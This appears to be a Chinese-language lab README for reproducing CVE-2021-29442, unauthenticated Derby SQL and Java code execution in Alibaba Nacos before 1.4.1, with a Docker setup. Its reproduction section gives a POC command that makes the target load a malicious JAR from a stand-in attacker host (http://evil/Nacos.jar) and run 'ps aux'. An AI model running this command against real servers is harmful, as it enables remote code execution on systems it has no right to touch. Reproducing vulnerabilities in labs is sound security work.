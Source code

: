# Alibaba Nacos 未授权接口命令执行漏洞（CVE-2021-29442）

Nacos 是一个设计用于动态服务发现、配置和服务管理的易于使用的平台。

在Nacos 1.4.1之前的版本中，一些API端点（如`/nacos/v1/cs/ops/derby`）可以默认没有鉴权，可以被未经身份验证的用户公开访问。攻击者可以利用该漏洞执行任意Derby SQL语句和 Java 代码。

参考资料：

- <https://github.com/advisories/GHSA-xv5h-v7jh-p2qh>
- <https://github.com/alibaba/nacos/issues/4463>
- <http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce>

## 漏洞环境

执行如下命令启动一个 Alibaba Nacos 1.4.0服务器：

```
docker compose up -d  
```

服务器启动后，访问`http://your-ip:8848/nacos/`可以看到 Nacos 的默认登录页面。

## 漏洞复现

首先，将恶意JAR包[evil.jar](evil.jar)上传到攻击者的HTTP服务器上，例如`http://evil/Nacos.jar`。

然后，执行[POC](poc.py)：

```
python poc.py -t http://your-ip:8848 -s http://evil/Nacos.jar -c "ps aux"  
```

`-t`参数指定目标地址，`-s`参数指定恶意JAR包的地址，`-c`参数指定要执行的命令。

可见，`ps aux`命令已被成功执行：

![](1.png)
